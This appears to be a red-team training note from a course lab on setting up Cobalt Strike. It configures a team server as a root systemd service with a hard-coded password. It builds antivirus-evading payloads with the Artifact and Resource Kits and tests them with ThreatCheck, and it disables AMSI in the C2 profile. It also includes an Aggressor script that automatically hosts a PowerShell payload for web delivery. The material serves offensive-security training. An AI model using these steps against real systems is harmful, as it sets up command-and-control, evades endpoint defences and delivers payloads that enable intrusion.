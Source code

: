 ```
sudo vim /etc/systemd/system/teamserver.service
```

```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
#ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'

[Install]
WantedBy=multi-user.target
```

```
sudo systemctl daemon-reload;sudo systemctl enable teamserver.service;sudo systemctl start teamserver.service;sudo systemctl status teamserver.service
```

# Create Listeners
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37750093-listener-management)



# AV Evasion

WSL
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
```

```shell
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

```shell
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
```

```bash
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

Open script manager in CS and load

/mnt/c/Tools/cobaltstrike/artifacts/pipe/artifact.cna

/mnt/c/Tools/cobaltstrike/resources/resources.cna

Generate All Payloads and test with

```Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
```

``` Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI
```

WSL

```
vim c2-profiles/normal/webbug.profile
```

```
post-ex {
        set amsi_disable "true";
}
```

```
./c2lint c2-profiles/normal/webbug.profile
```

```
sudo systemctl restart teamserver.service;sudo systemctl status teamserver.service
```



mimi
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/41815529-mimikatz-kit)

Create Dcom jumper
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/39198081-jump-remote-exec)


```
vim host_payloads.cna
```

```
# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```

Uncomment

```
sudo vim /etc/systemd/system/teamserver.service
```